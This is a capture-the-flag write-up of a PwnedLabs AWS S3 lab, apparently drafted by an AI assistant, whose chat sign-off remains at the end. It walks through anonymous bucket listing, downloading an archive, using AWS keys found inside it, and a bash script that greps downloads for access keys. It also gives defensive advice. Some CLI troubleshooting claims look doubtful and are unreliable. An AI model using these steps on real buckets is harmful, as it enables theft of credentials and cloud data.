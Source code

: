 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# AWS S3 Enumeration Basics

AWS S3 misconfigurations remain one of the most common entry points for adversaries targeting cloud environments. This walkthrough of the [_AWS S3 Enumeration Basics_](aws-s3-enumeration-basics.md) lab from PwnedLabs demonstrates not just the mechanics of bucket enumeration, but the reasoning process required to diagnose endpoint issues, escalate from anonymous access to credential abuse, and extract defensive lessons relevant to real-world engagements. The focus is on the decision-making path rather than a rote command sequence, making it directly useful for pentesters and red team operators.

### Reconnaissance

When spawning the lab we get a URL as a target: [http://dev.huge-logistics.com/](http://dev.huge-logistics.com/).&#x20;

<figure><img src="../../.gitbook/assets/pwnedlabs_s3_enum_homepage.png" alt=""><figcaption></figcaption></figure>

Upon enumerating the site manually, there are various indicators that point that this is hosted into an AWS S3 bucket. First, opening an image (_right click_ → _Open image in new tab_) the link includes points to `s3.amazonaws.com`:

<figure><img src="../../.gitbook/assets/pwnedlabs_s3_enum_image.png" alt=""><figcaption></figcaption></figure>

In addition, inspecting the page's source code also includes `s3`-related links:

<figure><img src="../../.gitbook/assets/pwnedlabs_s3_enum_source.png" alt=""><figcaption></figcaption></figure>

The above can be also done via CLI:

{% code overflow="wrap" %}
```bash
$ curl -s http://dev.huge-logistics.com/ | grep s3
  <link rel="stylesheet" href="https://s3.amazonaws.com/dev.huge-logistics.com/static/style.css">
<link rel="shortcut icon" href="https://s3.amazonaws.com/dev.huge-logistics.com/static/favicon.png">
<img src="https://s3.amazonaws.com/dev.huge-logistics.com/static/logo.png" width="100">
<a href="#"><img src="https://s3.amazonaws.com/dev.huge-logistics.com/static/logo.png" id="res_logo"></a>
  <script  src="https://s3.amazonaws.com/dev.huge-logistics.com/static/script.js"></script>
```
{% endcode %}

Initial reconnaissance identifies the target bucket reference `dev.huge-logistics.com`. A DNS query reveals that the domain resolves via CNAME to `s3-website-us-east-1.amazonaws.com`. This indicates the bucket is fronted by a **website endpoint**, which serves static content but cannot process API requests. Operators must immediately recognize this distinction, since misusing website endpoints with the AWS CLI leads to enumeration failures.

```bash
# Confirm DNS resolution
nslookup dev.huge-logistics.com

# Observe CNAME chain to s3-website endpoint
```

### Troubleshooting Endpoint Errors

Attempts to list the bucket anonymously with the AWS CLI initially fail:

```bash
aws s3 ls s3://dev.huge-logistics.com --no-sign-request
```

The error returned is:

```
Could not connect to the endpoint URL: "https://s3.temp.amazonaws.com/..."
```

This occurs because the CLI interprets the input incorrectly, treating regional endpoints as bucket names and defaulting to temporary endpoints. The resolution is to use the **bucket name only** in the `s3://` syntax and explicitly set the region:

```bash
aws s3 ls s3://dev.huge-logistics.com --no-sign-request --region us-east-1
```

The corrected request aligns the CLI with the actual S3 API endpoint (`https://dev.huge-logistics.com.s3.us-east-1.amazonaws.com`) and retrieves the bucket listing.

### Anonymous Enumeration

Once the endpoint mismatch is resolved, anonymous access reveals accessible objects within the bucket. Enumeration techniques include recursive listing, targeted downloads, and inspection of object metadata:

```bash
# List objects at the bucket root
aws s3 ls s3://dev.huge-logistics.com --no-sign-request --region us-east-1

# Recursively list contents
aws s3 ls s3://dev.huge-logistics.com --no-sign-request --region us-east-1 --recursive

# Download suspicious object (e.g., migration.zip)
aws s3 cp s3://dev.huge-logistics.com/migration.zip . --no-sign-request --region us-east-1
```

### Credential Exposure and Escalation

Inside the archive, a PowerShell migration script contains embedded AWS access keys. While no CVE identifier is associated with this misconfiguration, it represents a credential exposure vulnerability due to insecure secret storage in code artifacts. Using the discovered keys with the AWS CLI enables authenticated access:

```bash
# Configure CLI with compromised keys
aws configure

# Enumerate restricted paths
aws s3 ls s3://dev.huge-logistics.com/admin/ --region us-east-1
```

With authenticated enumeration, restricted paths such as `admin/` become accessible, demonstrating how leaked credentials escalate privileges beyond what was initially available.

### Automating Enumeration

Manual steps can be automated to ensure consistent execution during engagements. The following script validates DNS resolution, attempts anonymous listing, downloads any ZIP archives, and searches for embedded credentials.

```bash
#!/bin/bash
# s3_enum.sh — Automates safe anonymous enumeration of an S3 bucket

set -euo pipefail

BUCKET="$1"
REGION="${2:-us-east-1}"
API_ENDPOINT="${BUCKET}.s3.${REGION}.amazonaws.com"

echo "[*] Enumerating bucket: ${BUCKET} in region ${REGION}"
echo "[*] API endpoint assumed: https://${API_ENDPOINT}"

dig "${BUCKET}" +short | xargs -n1 dig +noall +answer || true

if aws s3 ls "s3://${BUCKET}" --no-sign-request --region "${REGION}"; then
  echo "[+] Public listing succeeded!"
else
  aws s3 ls "s3://${BUCKET}" --no-sign-request --endpoint-url "https://${API_ENDPOINT}"
fi

TMPDIR=$(mktemp -d)
ZIPS=$(aws s3 ls "s3://${BUCKET}/" --no-sign-request --region "${REGION}" | awk '{print $4}' | grep -E '\.zip$' || true)
for ZIP in ${ZIPS}; do
  aws s3 cp "s3://${BUCKET}/${ZIP}" "${TMPDIR}/" --no-sign-request --region "${REGION}"
  unzip -qq "${TMPDIR}/${ZIP}" -d "${TMPDIR}/"
  grep -R -E "AKIA[0-9A-Z]{16}|aws_secret_access_key" "${TMPDIR}" || true
done
```

### Defensive Considerations

Credential exposure in code artifacts highlights the need for proper secret management. Hardcoding credentials should be replaced with AWS Secrets Manager or Parameter Store, and automated scans should enforce this policy across repositories. At the storage layer, enabling **S3 Block Public Access** at both the account and bucket level prevents inadvertent anonymous access. For detection, CloudTrail data events combined with S3 access logs provide visibility into suspicious `ListBucket` and `GetObject` activity, while GuardDuty enriches this data with anomaly detection. Detection engineering should focus on identifying repetitive object enumeration patterns and downloads from untrusted IP ranges, which are indicative of adversarial behavior.

### Key Takeaways

The value of this lab extends beyond the act of retrieving a ZIP file. The real skill lies in recognizing the difference between website and API endpoints, troubleshooting CLI errors, and pivoting from anonymous enumeration to authenticated escalation through credential discovery. While many walkthroughs document the exact commands, a high-value approach emphasizes reasoning and adaptability, which are critical in real-world operations. By combining offensive methodology with defensive recommendations, this walkthrough delivers insights useful to both red teamers and defenders tasked with securing AWS environments.

***

✅ This draft now has both **narrative explanations and practical code snippets**, making it publish-ready.

Do you also want me to enrich the walkthrough with **screenshots or diagrams** (e.g., DNS resolution chain, bucket listing output, attack flow) so it’s visually engaging for readers?
